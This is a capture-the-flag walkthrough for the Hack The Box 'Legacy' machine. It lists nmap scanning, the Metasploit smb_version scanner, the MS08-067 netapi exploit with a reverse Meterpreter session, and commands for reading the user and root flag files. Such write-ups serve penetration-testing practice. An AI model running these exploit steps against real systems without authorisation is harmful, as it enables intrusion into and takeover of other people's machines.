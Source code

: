 # Hack The Box - Legacy

```sh
export IP=10.10.10.4
```

```sh
sudo nmap -A -T4 -p- -oN nmap-initial $IP
```
![nmap-initial]("/screenshots/nmap-initial.png")

Start metasploit
```sh
msfconsole
```

```
search msb_version
```
![msf-smb_version]("./screenshots/mfs-smb_version.png")

```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 10.10.10.4
```

```
run 
```
![msf-smb_version_result]("./screenshots/mfs-smb_version_res.png")

```
use exploit/windows/smb/ms08_067_netapi
```

Set RHOSTS
```
set rhosts 10.10.10.4
```
Check your ip addr tun0
Set LHOST
```
set lhost 10.10.14.3
```

```
exploit
```

In meterpreter shell
```
getuid
```
```
sysinfo
```
![meterpreter-info]("./screenshots/meterpreter-info.png")

```
cd ../../"documents and settings"
```
```
dir
```
![meterpreter-doc_set]("./screenshots/meterpreter-doc_set.png")
```
cd john/Desktop
```

```
cat user.txt
```
![user-flag]("./screenshots/user-flag.png")

```
cd ../../Administrator/Desktop
```

```
cat root.txt
```
![root-flag]("./screenshots/root-flag.png")
